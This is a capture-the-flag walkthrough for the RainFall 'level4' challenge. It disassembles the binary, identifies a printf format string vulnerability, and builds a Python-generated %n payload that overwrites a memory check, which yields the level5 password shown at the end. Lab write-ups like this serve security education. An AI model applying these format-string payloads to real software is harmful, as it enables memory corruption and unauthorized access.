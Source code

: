 # Walkthrough

After examining the contents of the home directory, I came across a binary file called "level4". Upon executing this binary, I noticed that it takes user input and outputs it.

```sh
level4@RainFall:~$ ./level4 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
```

To further analyze the binary, I used the GDB debugger. In the "main" function of the binary, there is a call to the "n" function.

```c
   0x080484a7 <+0>:     push   ebp
   0x080484a8 <+1>:     mov    ebp,esp
   0x080484aa <+3>:     and    esp,0xfffffff0
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>: leave  
   0x080484b3 <+12>: ret    
```

This "n" function uses the "fgets" function to read input from the user and store it in a buffer. It then calls the "p" function with the previously mentioned buffer, which then prints the input.

Additionally, the "n" function checks a condition to see if the value at memory address "0x8049810" is equal to "0x1025544". If this condition is true, the binary will execute the command "system("/bin/cat /home/user/level5/.pass")", which will output the contents of the ".pass" file for "level5". If this condition is false, the program does not take any further action.

The following code is the disassembled version of the "n" function:

```c
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218
   0x08048460 <+9>:     mov    eax,ds:0x8049804
   0x08048465 <+14>: mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>: mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>: lea    eax,[ebp-0x208]
   0x08048477 <+32>: mov    DWORD PTR [esp],eax
   0x0804847a <+35>: call   0x8048350 <fgets@plt>
   0x0804847f <+40>: lea    eax,[ebp-0x208]
   0x08048485 <+46>: mov    DWORD PTR [esp],eax
   0x08048488 <+49>: call   0x8048444 <p>
   0x0804848d <+54>: mov    eax,ds:0x8049810
   0x08048492 <+59>: cmp    eax,0x1025544
   0x08048497 <+64>: jne    0x80484a5 <n+78>
   0x08048499 <+66>: mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>: call   0x8048360 <system@plt>
   0x080484a5 <+78>: leave  
   0x080484a6 <+79>: ret    
```

The following code is the disassembled version of the "p" function:

```c
   0x08048444 <+0>:  push   ebp
   0x08048445 <+1>:  mov    ebp,esp
   0x08048447 <+3>:  sub    esp,0x18
   0x0804844a <+6>:  mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:  mov    DWORD PTR [esp],eax
   0x08048450 <+12>: call   0x8048340 <printf@plt>
   0x08048455 <+17>: leave  
   0x08048456 <+18>: ret  
```

Upon closer inspection, this level is similar to the previous one. The goal is to change the value at memory address "0x8049810" to the value 0x1025544, which can be done using a format string vulnerability. First, we need to determine the locations of the address using the %x conversion specifier.

```sh
level4@RainFall:~$ ./level4 
AAAA %x  %x  %x  %x  %x  %x  %x  %x  %x  %x  %x  %x  %x  %x  %x
AAAA b7ff26b0  bffff684  b7fd0ff4  0  0  bffff648  804848d  bffff440  200  b7fd1ac0  b7ff37d0  41414141  20782520  20782520  20782520
```

To overwrite the memory location at address 0x8049810, we can replace the "AAAA" placeholder with this address and use the %n conversion specifier instead of %x in the 12th conversion. This will write the number of characters printed so far to the memory location, effectively changing its value. We can then examine the disassembled code to see the effects of this change.

To carry out this task, i gonna use the Python programming language. We will write a script to generate the format string that will exploit the vulnerability and overwrite the memory location with the desired value.

```sh
level4@RainFall:~$ python2 -c 'print("\x08\x04\x98\x10"[::-1] + " "  + "%x " * 11 + "%n")' > /tmp/flag
level4@RainFall:~$ cat /tmp/flag
 %x %x %x %x %x %x %x %x %x %x %x %n
```

before `%n` converstion:

```c
0x8048492 <n+59>: cmp    eax,0x1025544
eax            0x0 0
```

after `%n` convertion:

```
0x8048492 <n+59>: cmp    eax,0x1025544
eax            0x54 84
```

Taking into account the information presented above, and factoring in the result below, it can be concluded that:

```sh
level4@RainFall:~$ cat /tmp/flag | ./level4 
||| |b7ff26b0 |bffff684 |b7fd0ff4 |0 |0 |bffff648 |804848d |bffff440 |200 |b7fd1ac0 |b7ff37d0 |
|4||1|    9   |    9    |    9    |2 |2 |    9    |    8   |    9    | 4  |    9    |    9    | // result = 84 <=> 0x54
```

After analyzing the situation, we have determined that we need an additional 16930032 bytes because 0x1025544 - 0x54  = 16930032. To add these bytes using the concept of width in printf, we can use the number 16930032 after the percentage sign, which tells printf to add 16930032 characters. However, the issue with using width is that it calculates the length of the value being printed, subtracts it from the width, and then pads the result with spaces. To compensate for this, we will add 8 to the 16930032 characters `(16930040)`to make the total length equal to 0x1025544`(16930116 in decimal)`.

```sh
level4@RainFall:~$ python2 -c 'print("\x08\x04\x98\x10"[::-1] + " " +  "%x " * 10 + "%16930040x " + "%n")' > /tmp/flag
level4@RainFall:~$ cat /tmp/flag | ./level4
 b7ff26b0 bffff684 b7fd0ff4 0 0 bffff648 804848d bffff440 200 b7fd1ac0 (after 16930032 space)b7ff37d0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a // the pass of level5
```

And with that, we have successfully obtained the password for level 5.
